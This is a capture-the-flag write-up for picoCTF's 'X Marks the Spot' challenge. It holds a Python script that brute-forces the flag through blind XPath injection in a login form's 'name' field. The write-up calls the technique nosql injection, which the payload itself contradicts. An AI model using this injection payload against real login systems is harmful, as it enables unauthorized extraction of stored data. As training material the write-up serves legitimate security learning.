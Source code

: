 ## X Marks the Spot
The following python code uses a blind nosql injection to brute force the website. Essentially we can send the server a part of the flag and it will respond with "yes" or "no".  We can use this to brute force the flag. So the script below send every possible charcter until we get a character right, then it appends a new one to try it again for the next character. This process repeats until the flag is complete.

For example:

	Request: "picoCTF{a"
	Response: "no"

	Request: "picoCTF{b"
	Response: "no"

	Request: "picoCTF{c"
	Response: "yes"

	Request: "picoCTF{ca"
	Response: "no"

	Request: "picoCTF{cb"
	Response: "yes"

If you would like to read on the topic, here are some resources:

[https://owasp.org/www-community/attacks/Blind_XPath_Injection](https://owasp.org/www-community/attacks/Blind_XPath_Injection "https://owasp.org/www-community/attacks/Blind_XPath_Injection")  

[https://book.hacktricks.xyz/pentesting-web/xpath-injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection "https://book.hacktricks.xyz/pentesting-web/xpath-injection")

  ```python
 import requests
 
alphabet =  "_abcdefghijklmnopqrstuvwxyz1234567890()ABCDEFGHIJKLMNOPQRSTUVXWYZ{}"
flag =  "picoCTF{"
url =  "http://mercury.picoctf.net:28065/"

req = requests.Session()

while flag[-1]  !=  '}':

	for i in  range(len(alphabet)):

		try:
			res = req.post(url,  data={"name":"bob' and //*[contains(text(),'"+flag+alphabet[i]+"')] or ''='","pass":"admin"},  timeout=1)

			if  ("Login failure"  not  in res.text):

				flag += alphabet[i]

				print("[+] Flag: "  + flag)
				
				break

		except:

			i-=1 
